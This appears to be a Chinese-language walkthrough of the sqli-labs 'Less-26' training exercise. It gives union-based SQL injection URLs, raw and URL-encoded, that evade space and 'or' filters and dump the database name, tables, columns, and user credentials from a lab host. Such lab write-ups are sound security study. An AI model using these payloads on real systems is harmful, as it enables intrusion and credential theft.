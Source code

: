 **注：id的值为0，****’****单引号需要url转码成%27，空格转码为%a0**

```
http://daishen.ltd:1112/Less-26/?id=0' union select 1,2,3 ||'1

http://daishen.ltd:1112/Less-26/?id=0%27%a0union%a0select%a01,2,3%a0||%271
```

暴库

```
http://daishen.ltd:1112/Less-26/?id=0' union select 1,database(),3 ||'1

http://daishen.ltd:1112/Less-26/?id=0%27%a0union%a0select%a01,database(),3%a0||%271
```

爆表

**需要用&&连接闭合， &&'1'='1 ，&&用url转码后%26%26，**

```
http://daishen.ltd:1112/Less-26/?id=0' union select 1,group_concat(table_name) ,3 from information_schema.tables where table_schema=database() &&'1'='1

http://daishen.ltd:1112/Less-26/?id=0%27%a0union%a0select%a01,group_concat(table_name),3%a0from%a0infoorrmation_schema.tables%a0where%a0table_schema=database()%a0%26%26%a0%271%27=%271
```

暴字段

**or过滤绕过**

```
http://daishen.ltd:1112/Less-26/?id=0' union select 1,group_concat(column_name) ,3 from infoorrmation_schema.columns where table_name='users' &&'1'='1

http://daishen.ltd:1112/Less-26/?id=0%27%a0union%a0select%a01,group_concat(column_name)%a0,3%a0from%a0infoorrmation_schema.columns%a0where%a0table_name=%27users%27%a0%26%26%271%27=%271
```

暴值

```
http://daishen.ltd:1112/Less-26/?id=0' union select 1,group_concat(username,0x3a,passwoorrd),3 from users where 1=1 &&'1'='1

http://daishen.ltd:1112/Less-26/?id=0%27%a0union%a0select%a01,group_concat(username,0x3a,passwoorrd),3%a0from%a0users%a0where%a01=1%a0%26%26%271%27=%271
或者
http://daishen.ltd:1112/Less-26/?id=0' union select 1,group_concat(username,0x3a,passwoorrd),3 from users where '1'='1

http://daishen.ltd:1112/Less-26/?id=0%27%a0union%a0select%a01,group_concat(username,0x3a,passwoorrd),3%a0from%a0users%a0where%a0%271%27=%271
```

后面多了where '1'='1,是为了让语句变成无约束查询

# **Less 26a **
